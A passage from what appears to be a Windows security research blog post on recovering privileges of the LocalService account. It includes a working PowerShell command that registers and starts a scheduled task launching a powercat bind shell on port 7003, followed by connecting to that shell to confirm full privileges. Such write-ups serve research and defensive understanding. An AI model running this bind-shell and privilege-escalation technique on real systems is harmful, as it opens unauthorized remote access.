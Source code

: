 Then, we can use the same commands as before and specify our `Principal` object using the appropriate parameter.

```powershell
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7003 -ep`""
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask2" -Principal $TaskPrincipal
# Start the task
Start-ScheduledTask -TaskName "SomeTask2"
```

<p align="center">
  <img src="/assets/posts/2019-12-05-localservice-privileges/08_localservice-create-task2.png">
</p>

Nice! :sunglasses: At least, no error/exception is triggered. Let's see if it worked by trying to connect to the new bindshell.

<p align="center">
  <img src="/assets/posts/2019-12-05-localservice-privileges/09_localservice-fullprivs.png">
</p>
